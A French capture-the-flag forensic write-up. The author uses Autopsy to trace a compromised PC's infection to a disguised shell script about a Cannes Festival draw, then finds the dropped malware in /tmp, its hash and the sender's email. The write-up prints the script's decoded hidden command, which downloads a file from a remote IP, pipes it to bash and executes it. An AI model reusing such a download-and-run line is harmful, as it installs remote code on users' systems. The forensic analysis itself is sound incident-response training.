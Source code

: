 ![Desc](images/desc.png)

# Writeup

Dans ce challenge, on nous fournit une copie du filesystem du PC infecté que l'on peut ouvrir avec Autopsy :

![fs](images/fs.png)

Il est indiqué que le groupe d'attaquants a utilisé le Festival de Cannes pour compromettre l'entreprise, en cherchant dans les dossiers, on trouve un script Shell `tirage_aux_sorts.sh` dans le fichier de téléchargement de l'utilisateur **cesar** qui parle du Festival.

Nous pouvons extraire pour analyse plus approfondi :

![shellscript](images/shellscript.png)

En ouvrant ce fichier dans Visual Studio Code, on se rend compte qu'il fait 1000 lignes, bizarre pour un script qui n'est censé en faire qu'une trentaine ^^ :

![script](images/script.png)

![malcommand](images/malcommand.png)


En effet ce script est malveillant, voici la commande décodée qu'il exécute :

```
wget -q http://57.128.85.25:50098/_ -O /tmp/._ | bash && chmod +x /tmp/._ && /tmp/._
```

On inspecte donc le dossier /tmp pour voir si le fichier `._` est présent :

![tmp](images/tmpfolder.png)

L’exécutable est présent ainsi que par déduction son fichier de config, `config.bin`

On récupère le SHA-256 du malware :

```
[Jun 30, 2025 - 03:08:20 (CEST)] exegol-Shutlock tmp # sha256sum ._
66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423  ._
[Jun 30, 2025 - 03:11:11 (CEST)] exegol-Shutlock tmp #
```

Il ne nous manque plus qu'à trouver l'email de l'attaquant, celui qui lui a envoyé le fichier `tirage_aux_sorts.sh`.

Grâce à Autopsy, un outil gratuit et formidable, on trouve l'origine de celui ci :

![mail](images/mail.png)

Ce fichier provient d'un spam de `star_wars_official@proton.me`

**Flag**

`SHLK{66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423:star_wars_official@proton.me:/tmp/config.bin}`
